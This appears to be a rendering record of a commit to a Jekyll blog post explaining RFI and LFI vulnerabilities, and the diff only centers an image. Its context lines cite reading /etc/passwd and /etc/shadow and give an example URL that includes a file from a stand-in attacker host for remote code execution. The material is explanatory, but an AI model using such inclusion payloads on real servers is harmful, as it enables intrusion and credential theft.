

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from rfi-lfi.md, in a window 1280 px wide. Shown: the whole page at 76% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1511 px from its top, so only the background shows below that.

Commit message:
Update rfi-lfi.md

```diff
--- a/rfi-lfi.md
+++ b/rfi-lfi.md
@@ -10,7 +10,8 @@ In the easiest way if we want to explain it
 When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
 even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system,
 for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
-<img src="lfi-example.PNG"/>
+<br>
+<center> <img src="lfi-example.PNG"/> </center>
 <br>
 On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in
 RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
```
